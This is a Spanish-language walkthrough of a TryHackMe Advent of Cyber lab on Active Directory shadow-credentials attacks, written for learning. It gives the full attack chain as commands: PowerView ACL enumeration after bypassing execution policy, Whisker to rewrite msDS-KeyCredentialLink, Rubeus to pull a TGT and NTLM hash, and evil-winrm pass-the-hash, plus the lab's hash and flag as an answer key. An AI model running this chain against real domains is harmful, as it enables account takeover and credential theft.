







# Advent of Cyber Día 11: Active directory

## Introducción

La historia del día es muy simple, un sistema con un stack tecnológico especializado en investigación climática tiene problemas en cuanto a materia de seguridad. Al integrarlo a otra infraestructura salen a la luz una serie de problemas y vulnerabilidades, principalmente que hay ciertos usuarios con permisos que no les corresponden.

## Objetivos de aprendizaje

- Aprender sobre *active directory*.
- Aprender sobre **Windows Hello** para empresas.
- Aprender sobre los requisitos para explotar el privilegio *GenericWrite*.
- Aprender cómo funcionan los ataques *shadow credentials*.
- Aprender a explotar la vulnerabilidad active directory.

## Active directory 101

Active directory (AD) es un sistema utilizado principalmente en entornos Windows, se trata de un sistema de autenticación centralizado. El **Domain Controller** (DC) es el corazón del AD y generalmente maneja el resguardo de la información, la autenticación y la autorización dentro de un dominio.

THM nos presenta una analogía para entenderlo mejor, dice que podemos plantearlo como si fuera una bdd digital que contiene objetos como por ejemplo usuarios, grupos y computadoras, cada uno con sus atributos y permisos correspondientes.

Idealmente se aplica el **principio de menor privilegio** (el cual sostiene que cada usuario debe tener solo los mínimos privilegios necesarios para realizar X tarea), también se utiliza un enfoque jerárquico para administrar roles y dar a los usuarios autenticados acceso a todos los datos no sensibles en todo el sistema. Por esta razón, la asignación de permisos debe abordarse con precaución, ya que puede comprometer potencialmente todo el Active Directory.

## Windows Hello for Business (WHfB)

Windows Hello es una alternativa a la autenticación por contraseña, en lugar de una clave tradicional utiliza una llave criptográfica. Los usuarios en el dominio del AD pueden acceder al mismo utilizando un PIN o datos biométricos conectados a un par de llaves criptográficas: publica y private.  
El atributo `msDS-KeyCredentialLink` es un atributo utilizado por el DC para guardar la clave pública en WHfB para un nuevo dispositivo/usuario. En resumen, cada *user object* de la bdd del AD tiene su clave pública guardada en este atributo único.

El proceso para guardar un nuevo par de certificados con WHfb es el siguiente:

1. **Creación de clave pública-privada mediante el Trusted platform module (TPM)**: TPM crea una clave pública-privada para la cuenta del usuario cuando ésta es creada. La clave **nunca** sale del TPM y **nunca** es revelada.
2. **Pedido del certificado del cliente**: el cliente inicia una *certificate request* para recibir un certificado confiable. La organización encargada de generar estos certificados recibe esta petición y le provee uno válido.
3. **Guardado de la clave**: se define el valor del atributo `msDS-KeyCredentialLink` para la cuenta del usuario.



Proceso de autenticación:

1. **Autorización**: el DC desencripta la información *pre-authenticated* mediante la llave pública guardada en el atributo `msDS-KeyCredentialLink` de la cuenta del usuario.
2. **Creación del certificado**: el certificado del usuario es generado por el DC y puede ser enviado de vuelta al cliente.
3. **Autenticación**: el cliente puede ingresar al AD utilizando el certificado.



THM nos menciona que es posible comprometer el AD si un atacante tiene la capacidad de redefinir el valor de `msDS-KeyCredentialLink` de un usuario particular.

## Enumeración

Para enumerar el AD con el objetivo de ver los permisos vulnerables vamos a hacer uso del script de PowerShell llamado `PowerView` con el comando `FindInterestingDomainAcl`. Esta funcionalidad muestra un listado de todos los privilegios que se pueden abusar, podemos también filtrar los resultados para el usuario actual, en este caso `hr`.  
Específicamente estamos buscando privilegios de escritura para redefinir el valor de `msDS-KeyCredentialLink`.

Para un ejemplo completo ver el apartado correspondiente dentro de [Resolución](#resolución)

## Explotación

Luego de la enumeración podemos hacer uso de una herramienta creada en C# llamaba **Whisker**. Esta utilidad permite abusar el privilegio vulnerable que obtuvimos de la enumeración, funciona de la siguiente manera: una vez obtenido el usuario vulnerable, ejecutamos el comando `add` desde Whisker para simular la inscripción de un dispositivo malicioso, de esta manera actualizamos el valor del atributo `msDS-KeyCredentialLink`.  
El comando a ejecutar sería así:

```ps1
.\Whisker.exe add /target:Administrator
```

Reemplazaríamos `/target` por lo obtenido en el proceso de enumeración. El output sería algo así:

```ps1
PS C:\Users\hr\Desktop> .\Whisker.exe add /target:Administrator
[*] No path was provided. The certificate will be printed as a Base64 blob
[*] No pass was provided. The certificate will be stored with the password qfyNlIfCjVqzwh1e
[*] Searching for the target account
[*] Target user found: CN=Administrator,CN=Users,DC=AOC,DC=local
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID ae6efd6c-27c6-4217-9675-177048179106
[*] Updating the msDS-KeyCredentialLink attribute of the target object
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[*] You can now run Rubeus with the following syntax:
Rubeus.exe asktgt /user:Administrator /certificate:MIIJwAIBAzCCCXwGCSqGSIb3DQEHAaCCCW0EgglpMIIJZTCCBhYGCSqGSIb3DQEHAaCCBgcEggYDMIIF/zCCBfsGCyqGSIb[snip] /password:"qfyNlIfCjVqzwh1e" /domain:AOC.local /dc:southpole.AOC.local /getcredentials /show
```

La herramienta nos provee el certificado necesario para autenticar la personificación del usuario vulnerable mediante un comando que se puede ejecutar usando `Rubeus`.

A continuación THM nos cuenta un poco como funciona y de qué se trata la autenticación en AD, menciona que utiliza el protocolo Kerberos, el cual le provee tokens (`TGT`) a cada usuario.

Mediante `Rubeus`, una herramienta creada en C#, es posible continuar el proceso de explotación pidiéndole un `TGT` al usuario vulnerable utilizando el certificado que generamos previamente.  
Una vez obtenido el certificado y un `TGT` válido podemos hacernos pasar por el usuario. También podemos visualizar el hash `NTLM` de la cuenta del usuario, hash que puede utilizarse luego para un ataque *pass-the-hash*.

El uso del `TGT` es simple, copiamos y pegamos el output del comando anterior:

```ps1
.\Rubeus.exe asktgt /user:Administrator /certificate:MIIJwAIBAzCCCXwGCSqGSIb3DQEH[snip] /password:"qfyNlIfCjVqzwh1e" /domain:AOC.local /dc:southpole.AOC.local /getcredentials /show
```

Donde cada elemento corresponde a:

- `asktgt`: hace una request para obtener el TGT.
- `/user`: el usuario por el cual queremos hacernos pasar.
- `/certificate`: el certificado generado para hacernos pasar por el usuario.
- `/password`: la contraseña utilizada para decodificar el certificado (ya que se encuentra encriptado).
- `/domain`: el target domain.
- `/getcredentials`: flag que obtiene el hash NTLM.
- `/dc`: el Domain Controller que genera el TGT.

Para ver el output ir al apartado de resolución.

Una vez obtenido el hash NTLM podemos utilizarlo para ejecutar un ataque *pass-the-hash*. Este ataque consiste en aprovecharse de la contraseña encriptada guardada en el DC en lugar de una contraseña de texto plano.  
Para esto vamos a utilizar una herramienta (desde nuestra AttackBox) llamada **Evil-WinRM**, la cual abusa el protocolo de Windows Remote Management. La sintaxis es la siguiente:

```ps1
evil-winrm -i IP_MAQUINA -u USER_ENUMERATED -H NTLM_HASH_OBTENIDO
```

Lo mismo que antes, el output va a estar en el apartado de resolución.

## Resolución

### Enumeración mediante PowerView

Ejecutamos el script detallado en el apartado [Enumeración](#enumeración) de la siguiente manera:

1. `powershell -ep bypass`: para asegurarnos de poder ejecutar scripts en la máquina.
2. `. .\PowerView.ps1`: para cargar el script en memoria.

Luego procedemos a ir armando el comando completo:

1. `Find-InterestingDomainAcl -ResolveGuids`: para enumerar los privilegios.
2. `Where-Object { $_.IdentityReferenceName -eq "hr" }`: para ver solo los resultados del usuario `hr`.
3. `Select-Object IdentityReferenceName, ObjectDN, ActiveDirectoryRights`: para obtener el usuario actual, el usuario vulnerable y el privilegio asignado, que es a fin de cuentas lo que nos interesa.

El comando completo quedaría:

```ps1
Find-InterestingDomainAcl -ResolveGuids | Where-Object { $_.IdentityReferenceName -eq "hr" } | Select-Object IdentityReferenceName, ObjectDN, ActiveDirectoryRights
```



El usuario cuenta con el permiso `GenericWrite`, esto nos va a servir luego para actualizar el valor de `msDS-KeyCredentialLink`. Esta vulnerabilidad de la conoce como *shadow credentials*.

Algo a tener en cuenta es que el usuario vulnerable no necesariamente es el administrador.

### Explotación mediante Whisker, Rubeus y Evil-WinRM

Como vimos en el apartado correspondiente, vamos a utilizar Whisker de la siguiente manera:

```ps1
.\Whisker.exe add /target:vansprinkles
```

Y obtenemos:



Procedemos a ejecutar Rubeus como nos indica el output y obtenemos:



Ya con el hash ejecutamos Evil-WinRM desde la AttackBox Linux de la siguiente manera:

```bash
evil-winrm -i 10.10.144.51 -u vansprinkles -H 03E805D8A8C5AA435FB48832DAD620E3
```

Y vemos que ya tenemos acceso remotamente:



Nos movemos por el sistema y obtenemos la flag:



### Respuesta

<details>
<summary>Spoiler</summary>
<table>
  <thead>
    <tr>
      <th style="text-align:center">Información</th>
      <th style="text-align:center">Valor</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td style="text-align:center">NTLM hash del usuario vulnerable</td>
      <td style="text-align:center"><code>03E805D8A8C5AA435FB48832DAD620E3</code></td>
    </tr>
    <tr>
      <td style="text-align:center">Flag</td>
      <td style="text-align:center"><code>THM{XMAS_IS_SAFE}</code></td>
    </tr>
  </tbody>
</table>
</details>

### [Volver a inicio](../../README.md)
